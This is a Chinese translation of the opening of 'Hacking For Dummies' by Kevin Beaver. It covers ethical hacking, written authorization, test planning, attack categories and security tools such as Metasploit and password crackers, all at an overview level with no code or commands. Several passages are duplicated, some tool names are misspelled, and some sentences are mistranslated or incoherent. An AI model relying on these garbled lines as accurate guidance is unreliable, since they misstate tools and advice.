# Hacking 入指南


若想成为一名黑客，你必须像黑客一样思考。安全专家凯文·比弗（Kevin Beaver）将为你展示黑客的动力以及他们正在寻找的目标。它将让你了解漏洞和渗透测试的秘密、安全最佳实践，以及在攻击者对你的业务造成问题之前阻止他们所需的其他一切。学习如何保护你的服务器和桌面电脑、Web 应用程序、移动设备或整个网络。


Kevin Beaver 是一位拥有三十多年经验的独立信息安全顾问。Kevin 专长为世界财富 1000 强企业、产品供应商、开发者、大学和政府机构提供漏洞测试、渗透测试和安全咨询服务。他曾出现在 CNN（美国新闻频道）上，并被《华尔街日报》引用。

访问 dummies.com 获取视频、分步示例、教程文章或进行购物！


防止 Windows 10、Linux* 和 macOS* 攻击
使用最新的工具和技术
制定安全测试计划

Kevin Beaver, CISSP
Principle Logic, LLC 独立信息安全顾问


Kevin Beaver 著


在加拿大同步出版


美国制造

# 快速概览


Kevin Beaver 是一位拥有三十多年经验的独立信息安全顾问。Kevin 专长为世界财富 1000 强企业、产品供应商、开发者、大学和政府机构提供漏洞测试、渗透测试和安全咨询服务。他曾出现在 CNN（美国新闻频道）上，并被《华尔街日报》引用。

访问 dummies.com 获取视频、分步示例、教程文章或进行购物！


防止 Windows 10、Linux* 和 macOS* 攻击
使用最新的工具和技术
制定安全测试计划

Kevin Beaver, CISSP
Principle Logic, LLC 独立信息安全顾问


Kevin Beaver 著


在加拿大同步出版


美国制造

# 快速概览


入门黑客指南


选择工具 ................................................................................................................................................................................. . . . . . . . . . . . . . . . 203
合一体评估工具 ................................................................................................................................................................................... . . . . . . 204
收集有关你的 Windows 漏洞的信息 .................................................................................................... 205
NetBIOS, ................................................................................................................................................................................................................................................. . . . . . . . . . . . . . . . . 208
映射 ........................................................................................................................................................................................................................................................................................................ 211
针对空会话攻击的防御措施 ............................................................................................................................................................................ 214
Windows 默认设置 ........................................................................................................................................................................................................................................................................................ 216
利用缺失的补丁 ............................................................................................................................................................................................................. 217
针对缺失补丁漏洞的防御措施 ................................................................................................................................................................. 224


选择工具 ................................................................................................................................................................................................................................................................................ 229
系统扫描 ................................................................................................................................................................................................................................................ 229
寻找不需要且不安全的服务 ................................................................................................................................................................. 234
针对不需要服务的攻击的防御措施 ................................................................................................................................................................. 236
利用 hosts.equiv 和 .hosts 文件的攻击 ................................................................................................................................................................................ 239
评估 NFS 的安全性 ................................................................................................................................................................................................................................ 241
针对 NFS 攻击的防御措施 ................................................................................................................................................... 242
文件权限攻击 ............................................................................................................................................................................................................................................ 243


攻击 ........................................................................................................................................ . . . . . . . . . . . . . . . . . . . 244
检查物理安全 ................................................................................................... 245
针对物理安全攻击的防御措施 ........................................................ 245
补丁 ................................................................................................................................... 248
多平台更新管理器 .............................................................................................. 249


介绍消息系统漏洞 ........................................................................................ 253
邮件炸弹 ................................................................................................................................... 255
SMTP 攻击 ................................................................................................................... 260
理解 VoIP ................................................................................................................... 270
针对 VoIP 漏洞的防御措施 ........................................................ 275

选择你的 Web 安全测试工具 ............................................................................ 278
目录遍历 ................................................................................................................... 279
输入过滤攻击 ............................................................................................ 283
默认脚本攻击 ................................................................................................................... 291
不安全的登录机制 ............................................................................................ 293
执行 Web 应用漏洞的通用安全扫描........................................................................................................... 297
通过隐蔽性实践安全 ...................................................................... 299
分析源代码 ........................................................................................................ 300


选择工具...............................................................................304
破解数据库密码......................................................305
遵循降低数据库安全风险的最佳实践 .........307
选择工具...............................................................................309
挖掘网络文件中的敏感文本................................310


评估你的安全基础设施...............................................328

监控恶意使用..................................................................332
培养安全意识...............................................................336


培养盟友和赞助人.......................................................341
证明组织无法承受被攻击的代价 .........342
展示安全测试如何具体地帮助该组织 .........344


# 引言

欢迎阅读《傻瓜走入门》（Hacking For Dummies）第六版。本书将用通俗易懂的语言概述计算机黑客攻击技巧和技术，你可以利用这些技术来评估自己信息系统的安全性，发现关键漏洞，并在犯罪黑客和恶意内部人员利用它们之前修复这些环节。这种黑客攻击是指专业的、公开的且合法的安全测试——我在本书中统称为“伦理黑客攻击”或“漏洞测试”。

计算机和网络安全是一个复杂的课题，即使采取了所有可能的最佳实践，你也必须紧跟潮流，以确保你的信息免受坏人的侵害。本书中概述的技术和工具可以提供帮助。

你可能实施了所有可能的安全技术和其他最佳实践，而且就你所知，你的网络环境可能是安全的。但除非你了解恶意攻击者是如何思考的、如何应用知识，并使用正确的工具从他们的视角来评估你的系统，否则实际上几乎无法真正感知你的系统和信息的真实状况。

伦理黑客（或更简单地说，安全评估）包含了正式且有体系的漏洞测试和渗透测试，这对于持续确保安全漏洞并验证你的信息系统是否真正安全是必要的。本书提供了你所需的知识，以成功实施安全评估计划、进行适当的安全检查，并采取适当措施将外部黑客和恶意用户隔之门外。

# 关于本书

《傻瓜走入门》是一本关于通过黑入系统来提高安全性并最大程度降低业务风险的参考指南。安全测试技术基于计算机系统渗透测试、漏洞测试和信息安全最佳实践的成文和不成文规则。本书涵盖了从建立测试计划、评估系统到修补漏洞以及管理持续安全测试计划的所有内容。

从现实来说，对于大多数网络、操作系统和应用程序，存在着数千种可能的漏洞。我没有涵盖所有的，但我涵盖了各种平台和系统上的主要漏洞，我认为这些漏洞导致了当今业务中的大多数安全问题。我涵盖了基本原理（80/20 法则），目标是为你找到产生 80% 安全风险的 20% 的问题。无论你是需要对小型办公室网络、中型企业网络还是大型企业系统进行漏洞评估，《傻瓜走入门》都能提供你所需的信息。

本书包含以下特色：

- >> 各种技术性和非技术性的测试及其详细的方法论。
- >> 防止黑客攻击和泄露的特定防御措施。

在开始操作系统之前，请熟悉第一部分中的信息，以便为手头的任务做好准备。“如果你计划失败，就请计划失败”这句格言在安全评估过程中是真理。如果你想成功，就必须有一个稳固的计划。

# 愚的假设


好了，既然已经说完了，让我们进入正题吧！如果你是系统管理员、信息安全经理、安全顾问、安全审计员、合规经理，或其他想要了解更多关于评估计算机系统、软件和 IT 运营的安全缺陷，并在此进行长期改进，那么这本书就是适合你的。

我也对你这位有抱负的信息安全（IT）或安全专业人士有几个假设：

- >> 你熟悉基础计算机、网络和信息安全的概念和术语。
- >> 你可以访问计算机和网络，可以使用这些技术和工具。
- >> 你已获得雇主或客户的许可，可以执行书中描述的黑客技术。


在整书中，你会在页边看到以下图标。


此图标指出了值得记忆的信息。


此图标指出了可能对你的漏洞和渗透测试工作产生负面影响的信息——请阅读！


此图标指的是可以突出或澄清重要点的建议。


此图标指出了有趣但对你理解讨论的话题至关重要的技术信息。


首先，务必查看与本书相关的快速备表（Cheat Sheet）。你可以通过访问 dummies.com 并搜索 Hacking For Dummies 来获取该快速备表。如果需要，快速备表是引导你正确方向或让你的安全测试计划回到正轨的极佳方法。

此外，请务必查看我的网站 www.principlelogic.com，特别是资源页面。


你对外部黑客、内部流氓人员以及你的系统应该如何进行测试了解得越多，你就越能保护好你的计算机和网络系统。本书提供了你所需的知识，以开发和维护成功的安全评估和漏洞管理计划。

根据你的计算机和网络配置，你可以跳过某些章节。恶意攻击者通常是黑客和恶意用户，他们总是在某些地方等待被利用。记住安全测试既是一门艺术，也是一门科学，它不断变化。

祝你黑客愉快！


- 发现漏洞和渗透测试的基础。
- 深入黑客内心，了解他们为什么以及如何做。
- 开发安全测试计划。


你对外部黑客、内部流氓人员以及你的系统应该如何进行测试了解得越多，你就越能保护好你的计算机和网络系统。本书提供了你所需的知识，以开发和维护成功的安全评估和漏洞管理计划。

根据你的计算机和网络配置，你可以跳过某些章节。恶意攻击者通常是黑客和恶意用户，他们总是在某些地方等待被利用。

# 术语

每个人都听过黑客和恶意用户。这些人是谁，你为什么需要了解？接下来的几节将为你介绍他们。

在书中，我使用以下术语：

- **黑客（或外部攻击者）**尝试从外部作为未经授权的用户入侵计算机、敏感信息甚至网络，以获取非法利益。黑客针对任何他们认为可以攻破的系统。有些黑客偏好进入保护良好的系统，但黑入任何系统都会增加攻击者在圈子里的地位。
- **恶意用户（外部或内部攻击者）**尝试从外部（例如客户或业务伙伴）或内部作为授权和受信任的用户入侵计算机和敏感信息。恶意用户针对他们认为可以获取非法利益或报复的系统，因为他们可能拥有系统的访问权限或知识。

通常来说，恶意攻击者既是黑客也是恶意用户。为了简便起见，只有当我需要区分并深入研究他们独特的工具、技术和思维方式时，我才会分别使用“攻击者”或“恶意用户”。


黑客有两个含义：

- 传统上，黑客喜欢摆弄软件或电子系统。黑客喜欢探索和学习计算机系统如何运作。他们热爱发现新的工作方式——无论是机械还是电子方面的。
- 近年来，*黑客*产生了一个新含义：为了个人利益而恶意破解系统的人。从技术上说，这些犯罪分子被称为*破解者*（犯罪黑客）。破解者带有恶意意入侵代码或系统。他们追求的利益可能是名声、知识产权、利润甚至是报复。


好人（白帽）黑客不喜欢被与坏人（黑帽）黑客归为一类。（如果你好奇的话，白帽和黑帽的术语源于早期的西方电视节目，剧中的好人戴着白色牛仔帽，而坏人戴着黑色牛仔帽。）*灰帽黑客则两者兼有。*无论情况如何，大多数人对“黑客”一词都带有负面印象。

许多恶意黑客声称他们并没有造成破坏，而是为了社会的更大的利益在帮助他人。行，随你怎么说。恶意黑客是电子分子，应该为自己的行为承担后果。

千万不要将犯罪黑客与安全研究人员混淆。研究人员不仅会进行深度测试并开发出我们在工作中使用的奇妙工具，而且（通常）还会采取负责任的步骤披露他们的发现并发布代码。

## 恶意用户

恶意用户——意味着违规员工、承包商、实习生或其他滥用权限的用户——是安全圈的常用术语，也是信息泄露新闻标题中的常客。问题并不一定在于用户攻击内部系统，而是用户滥用了被授予的访问权限。用户搜寻关键数据库系统以获取敏感信息，向竞争对手发送机密客户信息或其他——在云端，或者从他们可能根本没有访问权限的服务器上删除敏感文件。

有时，一个并没有恶意（或无知的）内部人员由于移动、删除或损坏敏感信息而导致安全问题。在商业世界中，键盘上一个无意的动作也可能导致灾难性的后果。想想全球范围内遭受的所有勒索软件感染。一个粗疏的用户只需点击一下，就能让你的网络受到影响。

恶意用户通常是 IT 和信息安全专业人员最坏的敌人，因为他们非常清楚去哪里可以获取目标，而且不需要精通计算机就能破解敏感信息。这些用户拥有所需的权限，而管理层毫无疑问地信任他们。

那么爱德华·斯诺登（Edward Snowden）呢——那个对自己的雇主进行定级的前国家安全局员工？这个话题非常复杂。（我将在第二章讨论黑客的动机。）无论你对斯诺登怎么看，他都滥用了权力并违反了保密协议的条款。其他人也是如此，出于各种原因，他们因臭名昭著而被推上了神坛。


## 识别恶意攻击者如何产生伦理黑客

你需要防止黑客的各种手段；你必须变得像那些试图攻击你系统的人一样精明。一个拥有黑客技能、心态和工具的真实评估人员是值得信任的。他或她根据黑客的思维和工作方式，对系统进行安全测试攻击。

伦理黑客（又称为漏洞和渗透测试）涉及犯罪黑客使用的工具、技巧和技术，但有一个主要区别：它是在专业环境下经目标对象许可后进行的。这种测试的意图是从恶意攻击者的角度发现漏洞，以更好地保护系统。漏洞和渗透测试是整体信息风险管理计划的一部分，允许持续的安全改进。这种安全测试还可以确保供应商的产品是合法的。


许多人将通过漏洞渗透测试进行的安全测试与安全审计混淆，但两者在目标上存在巨大差异。安全审计涉及将安全策略（或合规性）与实际发生的情况进行比较。安全审计的意图是验证安全控制措施的存在，通常采用基于风险的方法。审计通常涉及审查业务流程，在某些情况下并不具有技术性。事实上，安全审计可能像基础的安全清单一样简单，仅用于满足合规性要求。

并不是所有审计都是高层次的，但我过的很多——特别是那些涉及支付卡行业数据安全标准（PCI DSS）和《健康保险流通性与责任法案》（HIPAA）的审计——非常简单。通常，这些审计是由没有任何计算机、网络或应用程序技术经验的人执行的——或者完全在 IT 部门之外工作！


如果你执行漏洞和渗透测试并想为你的资历增加另一项认证，你可能想要考虑通过 EC-Council 赞助的认证计划成为认证伦理黑客（CEH）。请访问 www.eccouncil.org 了解更多信息；注册信息系统安全专业人员（CISSP），CEH 认证是一项业内广知名且受尊敬的认证，由美国国家标准协会（ANSI 17024）认证。

其他选项包括 SANS 全球信息保证认证（GIAC）计划、IACRB 认证渗透测试员（CPT）以及攻击性安全认证专业人员（OSCP）计划，后者是一项实操安全测试认证。我喜欢这种方法，因为通常执行此类工作的人缺乏操作这些工具和技巧的实操经验，无法很好地完成。请访问 www.giac.org 和 www.offensive-security.com 了解更多信息。

相反，基于伦理黑客的安全评估关注可以被利用的漏洞。这种测试验证了安全控制措施不存在或无效。这种漏洞和渗透测试既可以是高度技术性的，也可以是非技术性的，尽管它涉及到……的使用。


如果你选择将漏洞和渗透测试成为你组织的重要部分，你真的需要一份记录在案的安全策略。此类策略概述了谁执行测试、使用了什么类型的测试以及测试的频率。执行安全测试的具体程序可以涵盖我在书中介绍的方法。你可能还会建立测试日期，外部系统每季度一次，内部系统半年一次。


内部政策可能决定了管理层如何看待安全测试，但你还需要考虑影响业务的州、联邦和国际法律。特别是《数字千年版权法》（DMCA）让合法研究人员感到脊背发凉。访问 www.eff.org/issues/dmca 了解有关 DMCA 的所有信息。

美国的许多联邦法律——如 HIPAA 以及相关的《健康信息经济与临床法案》（HITECH）、《格拉姆-莱奇-布莱利法案》（GLBA）、北美可靠性协会（NERC）关键基础设施保护（CIP）要求以及 PCI DSS——都要求安全控制和持续评估。相关的国际法律——如加拿大的个人信息保护与文档法（PIPEDA）、欧盟的《通用数据保护条例》（GDPR）以及日本的个人信息保护法（APPI）各不相同。将安全测试整合到这些合规要求中是满足州联邦法规并加强整体信息安全与隐私计划的极佳方法。


要抓住小偷，必须像小偷一样思考。这句谚言是漏洞和渗透测试的基础。了解敌人至关重要。概率法则对安全不利。随着黑客数量的增加及其知识的扩大，以及系统漏洞和未知数的增长，所有计算机系统和应用程序最终都会以某种方式被攻击或破解。保护你的系统免受坏人侵害——不仅仅是通用的安全措施至关重要。当你了解自己的系统到底有多脆弱时：

攻击利用薄弱的安全实践和未公开的漏洞。更多的研究（参考每年的 Verizon 数据泄露调查报告 www.verizon.com/verizon-insights-lab/dbir）显示，长期存在的已知漏洞也是攻击目标。


坏人的做法是有作用的。通过攻击自己的系统来发现漏洞——尤其是那些让许多人陷入麻烦的“低挂之果”——有助于使系统更加安全。漏洞测试和渗透测试是一种被证明的极大加固系统防御攻击的有效方法。如果你不识别出缺点，漏洞被利用只是时间问题。

随着黑客知识的不断扩展，你也应该如此。你必须像他们一样思考，像他们一样工作，以保护你的系统免受他们的侵害。作为一名伦理黑客，你必须了解不道德黑客所进行的活动，以及如何阻止他们的努力。知道要寻找什么以及如何利用这些信息有助于击败黑客。

你不需要保护你的系统免受一切攻击。你做不到。防止一切攻击的唯一保护方法是拔掉电脑系统的插并将其锁定，让无人触碰——即使是你也不行。这样做不是安全的最佳方法，而且对业务也百不利！重要的是保护你的系统免受已知漏洞和常见攻击的影响——即导致 80% 风险的 20% 的问题，这些问题恰好是大多数机构中最被忽视的弱点。


预判系统和业务流程中可能出现的所有漏洞是不可能的。你显然无法为所有攻击制定计划——尤其是那些未知的攻击。但你尝试的组合越多，对整个系统而非单个单元的测试越多，你发现影响整个信息系统的漏洞的机会就越大。

然而，不要在你的安全测试上浪费过多的精力；为了极不太可能（甚至很有可能）的攻击而对系统进行加固是意义不大。

你对安全测试的总体目标是：

- 对你的系统进行优先级排序，以便将精力集中在重要的事情上。
- 以非破坏的方式测试你的系统。
- 列举漏洞，并在必要时向管理层证明业务风险的存在。
- 应用结果来解决漏洞并更好地保护你的系统。


大致知道你的系统正受到全球黑客和办公室周围恶意用户的攻击是一回事；而理解针对你系统的特定潜在攻击则是另一回事。本节讨论了广为人知的攻击，但绝非详尽列表。

许多安全漏洞本身并不是致命的，但同时利用多个漏洞可能会对系统或网络环境造成损害。默认的 Windows 操作系统（OS）配置、弱弱的 SQL Server 管理员密码，或无线网络上的服务器本身可能不是重大的安全隐患。但如果有人同时利用所有这些漏洞，就可以实现未经授权的远程访问并获取敏感信息（以及其他内容）。

复杂性是安全的敌人。


由于虚拟化、云计算甚至社交媒体的影响，漏洞和攻击在近年来急剧增加。单是这三点就给你的环境增加了无法衡量的复杂性。


涉及操纵终端用户甚至你自己的利用程序是任何计算机或网络基础设施中最大的漏洞。人类天生如此如此，这可能导致社会工程学攻击。社会工程学是利用人类的信任本性来获取信息（通常通过电子邮件钓鱼——出于恶意目的）。请查看第 6 章获取更多关于社会工程学以及如何防御你的系统的信息。

其他针对信息系统的常见且有效的攻击是物理性的。黑客闯入建筑、计算机机房或其他包含关键信息或财产的区域，盗取计算机、服务器和其他贵重设备。物理攻击还包括翻找垃圾——在垃圾桶和容器中寻找知识产权、密码和其他信息。


对网络结构的攻击很容易实现，因为许多网络可以通过互联网从世界上任何地方访问。网络攻击示例包括：

- 连接到防火墙后的未安全无线接入点。
- 利用网络协议的漏洞，例如文件传输协议 (FTP) 和安全套接层 (SSL)。
- 使用大量请求淹网络，导致拒绝服务 (DoS)。
- 在网段上安装网络分析仪并捕获通过的所有数据包，暴露明文信息。


攻击操作系统是黑客的首选方法，因为每台计算机都有操作系统。操作系统攻击占据了攻击很大的一部分，因为漏洞多年存在。

偶尔，某些操作系统在出厂时可能更安全——例如旧的 Novell NetWare、OpenBSD 和 IBM Series —— 会遭到攻击，漏洞随之出现。但黑客倾向于攻击 Windows、Linux 和 Mac，因为它们被广泛使用。

以下是对操作系统攻击的一些示例：

- 利用缺失的补丁
- 攻击身份验证
- 破坏文件系统安全
- 破解密码


应用程序受到大量攻击。Web 和移动应用程序可能是最流行的攻击手段，经常被攻破。对于以下是应用程序攻击的示例：

- Web 应用无处不在。得益于影子 IT（业务中各个部门自行运行和管理技术），Web 应用存在于内部网络的每个角落以及云端。遗憾的是，许多 IT 和安全人员并未意识到影子 IT 的存在及其风险。
- 考虑到移动应用在业务环境中的普及，它们面临着越来越多的攻击。应用商店中发现恶意应用会对你的环境产生影响。


安全人员必须像恶意黑客一样，对计算机系统、物理控制和人员执行相同的攻击。（我在上一节中介绍了这些攻击。）然而，安全人员的意图是突出相关的弱点。

为了确保安全测试执行得当且专业，每位安全人员都必须遵循一些基本原则。下文介绍了这些重要的原则。

> 如果你不遵守这些原则，可能会发生糟糕的事情。我见过 IT 部门在计划和执行安全测试时忽略或忘记了它们。结果是：相信我的。


伦理这个词在这种语境下意味着以高标准的职业道德和价值观工作。无论你是为自己的系统进行安全测试，还是为雇佣你的人，你都必须坚持支持


公司的目标没有隐藏的动机——只有专业精神。遵循道德规范也意味着报告你发现的所有结果，无论这些结果是否会引起政治反弹。别笑；在很多情况下，我曾目睹人们因为不想得罪上层，或者不想与棘手的高管或供应商打交道而忽视了安全漏洞的发现。

可信度是终极测试。它是让人们站在你这边（并支持）支持你的安全计划的最好方法。滥用信息和权力是不被允许的；那是坏人所做的事，就让他们因为糟糕的决定而罚款或入狱吧。请记住，你可能符合道德准则但不值得信赖，反之亦然，就像爱德华·斯诺登（Edward Snowden）那样。这些复杂性是你安全计划中整体挑战的一部分。我不羡慕你面对的这种复杂性。


以尊重的态度对待你收集的信息。你在测试期间获得的所有信息——从 Web 应用流程到明文邮件，再到个人身份信息（PII）及其他——都必须保密。窥探公司机密信息或员工生活不会带来任何好处。

让其他人参与到你的过程中来。采用同行评审或类似的监督系统，可以帮助为你的安全评估项目建立信任和支持。


我看到人们尝试测试自己的系统时犯的最大错误之一，就是在无意中导致他们正试图运行的系统崩溃。考虑到今天系统的韧性，系统崩溃不像以前那样频繁，但糟糕的计划和时机选择可能会导致负面后果。

虽然你不可能这样做，但在测试时可能会在系统上创建 DoS 状态。快速运行过多测试会导致系统锁定、数据损坏、重启和类似问题，特别是当你测试旧的服务器和 Web 应用时。（我应该很清楚；因为我做过！）不要假设网络或特定主机能够承受网络工具和漏洞带来的冲击。

你可能会在使用扫描器或通过社交工程让某人更改密码而在没有意识到行为后果的情况下，意外导致账户锁定或系统锁定。请谨慎行事并运用常识。无论如何，无论是因为你还是别人，这些漏洞仍然存在，最好由你先发现它们！


许多漏洞扫描器可以控制每个系统同时执行的测试次数。当你需要在常规工作时间内在生产系统上运行测试时，这些设置特别有用。不要害怕减慢扫描速度。完成测试将花费更长时间，但如果存在不稳定的系统，减速可能会为你省去很多麻烦。


对于几乎任何 IT 或安全项目，你都需要计划安全测试。人们说，没有计划的行动是所有失败的根源。漏洞和渗透测试中的策略性问题和战术性问题需要提前确定并达成一致。为了确保你的努力成功，请花时间计划任何量的测试，从对几台服务器进行简单的 OS 密码破解测试到复杂环境的渗透测试。

如果你选择聘佣一名“改过自新”的黑客来协助你的测试或获得独立的视角，请务小心。我在第 19 章中介绍了聘用安全资源的优缺点以及禁忌。


获得安全测试的批准至关重要。确保你的要求是为人知且可见的——至少对决策者可见。项目赞助是第一步。这是定义你测试目标的方式。赞助可能来自你的经理、高管、客户，甚至如果你是老板的话来自你自己。你需要有人支持你并签署你的计划。否则，如果有人（包括云服务提供商和托管供应商等第三方）声称你从未获得授权执行测试，你的测试可能会被意外取消。更糟糕的是，你可能会被解雇或被指控刑事活动。

当你在自己的系统上执行这些测试时，授权可以仅仅是内部备忘录或老板的一封邮件。如果你是为客户测试，请有一份签署的合同，说明客户的支持和授权。尽快获得此类赞助的书面批准，以确保你的任何时间或精力都不会白费。如果任何人——例如你的互联网服务提供商（ISP）、云提供商或相关供应商——质疑你的所作，或者当局打来电话，这份文件就是你的“免死牌”。别笑——这不会是第一次发生。

一次失误就会导致你的系统崩溃，这并不一定是每个人想要的。你需要一个详细的计划，但不需要大量让计划过于复杂的测试程序。一个定义良好的范围包含以下信息：

- **要测试的特定系统：** 在选择要测试的系统时，从最关键的系统和流程或最脆弱的系统开始。你可以测试 OS 密码，测试一个面向互联网的 Web 应用，或者在深入研究所有系统之前，通过电子邮件钓鱼尝试进行社交工程。
- **涉及的风险：** 为你的安全测试过程准备一个应急预案，以防发生意外。假设你正在评估你的防火墙或 Web 应用，结果你将其宕了。这种情况可能会导致不可用，从而降低系统性能或员工生产力。更糟糕的是，可能会导致数据完整性丢失、数据本身丢失以及负面声誉。它极有可能让某人丢工作并让你看起来很难看。这一切都会产生风险。

小心处理社交工程和 DoS 攻击。它们可能会如何影响你测试的人和系统。

- **执行日期和整体时间表：** 何时执行测试是你必须深思熟虑的。决定是在工作时间内执行，还是在深夜或清晨执行，以免影响生产系统。让其他人参与，以确保他们认可你的时间安排。

你可能会受到压力并遭受 DoS 相关的后果；最好的方法是无限制攻击，即在任何时候都可以进行任何类型的测试。坏人不会在有限范围内入侵你的系统，你又何何？这种方法的例外是执行全面的 DoS 攻击、社交工程和物理安全测试。


许多漏洞扫描器可以控制每个系统同时执行的测试次数。当你需要在常规工作时间内在生产系统上运行测试时，这些设置特别有用。不要害怕减慢扫描速度。完成测试将花费更长时间，但如果存在不稳定的系统，减速可能会为你省去很多麻烦。


对于几乎任何 IT 或安全项目，你都需要计划安全测试。人们说，没有计划的行动是所有失败的根源。漏洞和渗透测试中的策略性问题和战术性问题需要提前确定并达成一致。为了确保你的努力成功，请花时间计划任何量的测试，从对几台服务器进行简单的 OS 密码破解测试到复杂环境的渗透测试。

如果你选择聘佣一名“改过自新”的黑客来协助你的测试或获得独立的视角，请务心。我在第 19 章中介绍了聘用安全资源的优缺点以及禁忌。


获得安全测试的批准至关重要。确保你的要求是为人知且可见的——至少对决策者可见。项目赞助是第一步。这是定义你测试目标的方式。赞助可能来自你的经理、高管、客户，甚至如果你是老板的话来自你自己。你需要有人支持你并签署你的计划。否则，如果有人（包括云服务提供商和托管供应商等第三方）声称你从未获得授权执行测试，你的测试可能会被意外取消。更糟糕的是，你可能会被解雇或被指控刑事活动。

当你在自己的系统上执行这些测试时，授权可以仅仅是内部备忘录或老板的一封邮件。如果你是为客户测试，请有一份签署的合同，说明客户的支持和授权。尽快获得此类赞助的书面批准，以确保你的任何时间或精力都不会白费。如果任何人——例如你的互联网服务提供商（ISP）、云提供商或相关供应商——质疑你的所作，或者当局打来电话，这份文件就是你的“免死牌”。别笑——这不会是第一次发生。

一次失误就会导致你的系统崩溃，这并不一定是每个人想要的。你需要一个详细的计划，但不需要大量让计划过于复杂的测试程序。一个定义良好的范围包含以下信息：

- **要测试的特定系统：** 在选择要测试的系统时，从最关键的系统和流程或最脆弱的系统开始。你可以测试 OS 密码，测试一个面向互联网的 Web 应用，或者在深入研究所有系统之前，通过电子邮件钓鱼尝试进行社交工程。
- **涉及的风险：** 为你的安全测试过程准备一个应急预案，以防发生意外。假设你正在评估你的防火墙或 Web 应用，结果你将其宕了。这种情况可能会导致不可用，从而降低系统性能或员工生产力。更糟糕的是，可能会导致数据完整性丢失、数据本身丢失以及负面声誉。它极有可能让某人丢工作并让你看起来很难看。这一切都会产生风险。

小心处理社交工程和 DoS 攻击。它们可能会如何影响你测试的人和系统。

- **执行日期和整体时间表：** 何时执行测试是你必须深思熟虑的。决定是在工作时间内执行，还是在深夜或清晨执行，以免影响生产系统。让其他人参与，以确保他们认可你的时间安排。

你可能会受到压力并遭受 DoS 相关的后果；最好的方法是无限制攻击，即在任何时候都可以进行任何类型的测试。坏人不会在有限范围内入侵你的系统，你又何何？这种方法的例外是执行全面的 DoS 攻击、社交工程和物理安全测试。

- **你是否意图被发现：** 你的目标之一可能是在不被发现的情况下执行测试。你可能会在远程系统或远程办公室执行测试，并且不想让用户意识到你的所作。否则，用户或 IT 员工可能会发现你，而你的行为将是不常的。

 TIPS

- **是否开启防护：** 一个重要但被忽略的，是否开启诸如防火墙、入侵防御系统（IPS）和 Web 应用防火墙（WAFs），以便它们阻止扫描和利用尝试。对我来说，深度防御方法很棒，但无法描绘出整个安全态势，除非你发现漏洞。

第 1 章 漏洞与渗透测试简介 19

许多漏洞扫描器可以控制每个系统同时执行的测试次数。当你需要在常规工作时间内在生产系统上运行测试时，这些设置特别有用。不要害怕减慢扫描速度。完成测试将花费更长时间，但如果存在不稳定的系统，减速可能会为你省去很多麻烦。

选择工具

正如任何项目一样，如果你没有为安全测试准备正确的工具，你将难以有效地完成任务。尽管如此，仅仅使用正确的工具并不意味着你将发现所有正确的漏洞。经验很重要。

> 了解你工具的局限性。许多漏洞扫描器会产生虚假阳性和阴性结果（错误地识别漏洞）。有些会跳过漏洞。在某些情况下，例如测试 Web 应用，你必须运行多个漏洞扫描器来发现所有漏洞。

20 第 1 部分 构建安全测试的基础


为了这项任务。你拥有的工具越多（且越越用），你的安全测试工作就越容易。

确保你在执行任务时使用了此类类工具：

- 为了破解密码，你需要诸如 Ophirack 和 Proactive Password Auditor 之类的破解工具。
- 对于 Web 应用程序的深度分析，网络漏洞扫描器（如 Netspider 或 Acunetix Web Vulnerability Scanner）比网络分析器（如 Wireshark 或 Omnipeek）更合适。

许多安全和黑客工具的能力被误解了。这种误解给优秀且合法的工具蒙上了负面色彩；甚至全球各地的政府特工都在讨论将这些工具非法化。这种误解的某些原因源于某些安全测试工具的复杂性。无论你使用哪种工具，在使用它们之前都要先熟悉它们。确保你已准备好按照工具的设计初衷来使用它们。以下是这些的方法：

- 读取 readme 文件/或在线帮助文件以及 FAQ（常见问题解答）。
- 研究用户指南。
- 在实验室或测试环境中使用工具。
- 在 YouTube 上观看教程视频（如果你能忍受它们粗劣的制作水平的话）。
- 如果可以，考虑参加安全工具供应商或第三方培训提供者提供的正式课堂培训。

在安全测试工具中寻找以下特征：

- 完善的文档。
- 关于发现的漏洞的详细报告，包括它们可能如何被利用和修复。
- 通用的行业术语。
- 更新可用性以及技术支持的响应速度。
- 可以提交给经理或非技术人员的高级报告（这在当今由审计和合规驱动的世界中尤为重要）。

在执行测试和编写最终报告时，这些功能可以节省你大量的时间精力。

# 第1章 漏洞与渗透测试简介 21

## 示例安全测试工具

在为任务选择合适的安全工具时，多听听意见。通过 Google、LinkedIn 和 YouTube 从同事和其他那里获取建议。安全工具有成百上千，甚至数万种可用。以下是我最喜欢的一些商用、免费和开源安全工具：

> 小提示
- Acunetix Web Vulnerability Scanner
- Cain & Abel
- CommView for WiFi
- Elcomsoft System Recovery
- Metasploit
- Nessus
- NetScanTools Pro
- Netsparker
- Nexpose
- Omnipeek
- SoftPerfect Network Scanner

我在第 2 到第 5 部分将结合特定的测试讨论这些工具以及许多其他工具。附录包含了更全面的工具列表供你参考。

## 执行计划

良好的安全测试需要坚持。时间和耐心至关重要。此外，在执行测试时要小心。你网络上的罪犯或一个看似无害、站在你身后的员工可能会观察正在发生的情况，并利用这些信息对你或你的业务造成不利。

在开始之前确保系统中没有黑客是不切实际的。你只需要尽可能保持一切的安静和私密，特别是在你传输和存储测试结果时。如果可能，对任何包含敏感测试信息的电子邮件和文件进行加密，或通过云文件服务共享它们。

你正在执行一项侦察任务。要像恶意黑客一样，尽可能获取更多关于你组织和系统的信息。从宏观视角开始，然后缩小范围。遵循以下步骤：

1. **在互联网上搜索你组织的名称、计算机网络系统及其 IP 地址。**
   Google 是一个很好的起点。
2. **缩小你的范围，目标针对你正在测试的特定系统。**
   无论是在评估物理安全结构还是 Web 应用程序，随意的评估都能发现许多关于你系统的信息。
3. **通过执行扫描和其他详细测试来发现系统中的漏洞，从而缩小焦点。**
4. **执行攻击并利用你发现的任何漏洞（如果你选择这样做的话）。**
   查阅第 4 章和第 5 章获取有关此过程的信息和提示。

## 评估结果

评估结果以查看你发现了什么，假设这些漏洞在之前并不显而易见。知识就是力量。你评估结果和关联特定漏洞的技能将随着练习而提高。你最终对系统的了解将比任何人都得多，这将使未来的评估过程变得更简单。

向管理层或你的客户提交正式报告，概述你需要分享的任何建议。让这些政策处于监控范围内，以表明你的努力和他们的资金花有所值。第 17 章描述了安全评估报告流程。


## 继续

当你完成安全测试时，你（或你的客户）仍然需要实施你的建议以确保系统是安全的。否则，在测试上花费的所有时间、金钱精力都是白费。遗憾的是，我经常看到这种情况。

